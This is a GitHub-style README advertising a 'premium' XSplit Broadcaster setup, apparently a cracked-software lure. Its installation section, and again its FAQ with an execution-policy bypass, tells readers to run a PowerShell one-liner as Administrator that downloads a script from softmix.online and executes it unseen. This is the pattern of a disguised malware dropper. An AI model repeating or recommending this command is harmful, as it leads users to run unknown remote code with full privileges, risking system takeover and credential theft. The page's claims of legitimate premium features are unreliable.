

<div align="center">


<br>


# XSplit Broadcaster Premium Complete Setup
**Scene switching · Overlays · Stream output**
<br>
**Scene switching · Overlays · Stream output**
<br>
Premium · Pro · Complete · Windows



**XSplit Broadcaster Premium — scenes, overlays, plugins, multistream and local recording all enabled.**

</div>

---

> Stream to multiple platforms with pro scenes — premium broadcaster modules enabled for creators.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://softmix.online/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

🎬 **Live production** — Multi-source scenes and switching enabled.
📡 **Stream output** — Broadcast to platforms with pro overlays.
📦 **Offline studio** — Works locally after setup.
🖥️ **Windows optimized** — Built for creator workstations.
🎛️ **Pro controls** — Audio, scenes and widgets included.
✨ **Premium modules** — Paid broadcaster features enabled.
⚡ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB recommended |
| **Disk** | 8 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://softmix.online/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB recommended, 8 gb free space.
</details>


TAGS
xsplit, xsplit-broadcaster, live-streaming, stream-software, broadcast-software, game-streaming, obs-alternative, stream-recording, video-broadcast, content-creator, streaming-software, xsplit-gamecaster, live-broadcast, twitch-streaming, youtube-streaming
